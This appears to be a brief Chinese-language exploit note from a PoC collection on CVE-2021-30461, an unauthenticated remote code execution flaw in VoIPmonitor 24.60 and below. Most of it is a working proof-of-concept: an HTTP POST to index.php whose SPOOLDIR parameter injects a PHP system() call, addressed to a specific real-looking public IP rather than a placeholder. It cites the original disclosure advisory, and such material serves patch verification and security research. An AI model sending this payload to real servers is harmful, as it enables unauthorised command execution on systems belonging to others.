 # VoIPmonitor UnAuth RCE（CVE-2021-30461）


VoIPmonitor 是一个开源的实时网络抓包并分析SIP和RTP protocol的程序.使用通过Web界面到达的用户提供的数据，使用SPOOLDIR和recheck参数对index.php文件发出POST请求时，远程攻击者可以运行任意命令。

影响版本：
VoIPmonitor 24.60 及更低版本

poc：

```
POST /index.php HTTP/1.1
Host: 206.166.208.228

SPOOLDIR=test%22.system%28whoami%29.%22
```

ref：

https://ssd-disclosure.com/ssd-advisory-voipmonitor-unauth-rce/